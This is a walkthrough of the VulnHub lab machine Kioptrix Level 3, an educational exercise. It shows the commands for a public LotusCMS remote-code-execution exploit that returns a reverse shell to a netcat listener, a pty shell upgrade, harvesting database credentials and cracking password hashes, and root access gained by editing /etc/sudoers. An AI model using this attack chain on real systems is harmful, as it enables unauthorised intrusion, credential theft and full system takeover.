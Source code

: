 # Kioptrix Level 3
Today, we will be pwning the VulnHub machine Kioptrix 3.

  

# Enumeration

  

Once you have obtained the machine's IP address, we will perform a routine nmap scan using the `-sV` and `-sC` flags.

  

img

  

As you can see from the scan, we seem to have a SSH server and an Apache server running version `2.2.8`.

Upon visiting the IP in our browser, we are greeted with some sort of gallery website. After a bit of searching, the "login" tab seems to spark a few ideas.

  

img

  

We could try **SQL injection** but after testing a few payloads such as `'#`, we have no luck. Using **searchsploit**, it is apparent that there is a vulnerability for LotusCMS (which the login page is powered by).

  

img

  

The first payload does seem to be a good choice however for the purpose of this tutorial I'll be using [this exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit).
  

```bash

git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit

cd LotusCMS-Exploit

./lotusRCE.sh

# answering prompts:

[host-ip]

4444

```

Now, you will need to setup a netcat listener in another terminal.

```bash

nc -lvnp 4444

```

Finally, you can obtain a reverse shell on the machine by entering the letter 1 (on the LotusCMS script).

  

img

  

From the image, we can see that we have successfully gotten a reverse shell! However, we need to pimp it up a little so enter:

```

python -c 'import pty; pty.spawn("/bin/bash")'

```

Now you'll have a much more responsive shell! Now we need to perform some more enumeration. Firstly, I'll checkout the `/etc/passwd` file. Two users seems to catch my eye - loneferret and dreg.

  

img

  

As you can see from the image, we have entered the home directory of loneferret to checkout what they've got hiding! After running `ls`, the company policy file seems to be the most interesting.

  

img

  

It seems to want us to run `sudo ht`, after doing so, we are faced with a massive brickwall....We don't know the password!

After searching through this machine for a while, the subdirectory of `/home` named `www` catches my attention. Inside it, seems to be the files for the Kioptrix website. Upon entering this directory and running `ls`, nothing of proper interest seems to come up.

  

img

  

After searching around a bit more, we come across the file `/home/www/kioptrix3.com/gallery/gconfig.php`. After viewing the contents of the file it is apparent it contains some db credentials! However, there does not seem to be much these credentials could be for. So we'll run gobuster quickly to identify any further entry points.

  

img

  

```

gobuster dir --url http://[machine-ip] --wordlist /usr/share/wordlists/dirb/common.txt

```

> Directory of wordlist for Kali only, if on other OS please install the Dirb common.txt wordlist.

  

Finally something good! Using the login credentials we can login to the phpmyadmin console that gobuster found.

  

img

  

We have successfully gained access to the/a database! After sifting through a bit, I manage to spot some account details located in the gallery database under the `dev_accounts` table. From here, we can crack the hashes for these accounts using https://crackstation.net. First, lets try the hash for the loneferret account. After entering our hash, we are told that the hash evaluates to the password `starwars`! Remeber that SSH server? We'll be using these credentials to log into that now. However, I'm not sure if the following is a bug or not but to be able to properly login to the SSH server we must use some alternate **Host Key Algorithms**, meaning the command used to login to the server is as follows:
```bash
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@[machine-ip]
```

img 

As shown in the image, we have successfully logged into the machine as `loneferret`. To check our sudo permissions we may run `sudo -l`. After doing so, we are told we can use `sudo` without a password to run the following `/usr/bin/su`, `/usr/local/bin/ht` and `/bin/bash`. Earlier, we looked at a company policy file with told us to type `sudo ht`, furthermore, looking at the output of the command we just used, we should be able to run `sudo ht` without any issues!

img

> If you face the error show in the image please first run `export TERM=xterm`.

After running `sudo ht`, you should be greeted with some sort of text editor interface

img

Since we have run `ht` as superuser, we can edit the `sudoers` file to give us root permissions, to do so, enter `ALT-F`, then select the `Open` option, press enter and input the directory `/etc/sudoers`. Now you can add /bin/sh to the loneferret user privilege specification as shown in the image.

img

After this, just hit `ALT-F`, then select the `Save` option, then hit `ALT-F` again and select the option quit. From here you may simply run `sudo /bin/sh` and you will have root!

img

Congrats on pwning Kioptrix 3! ;)
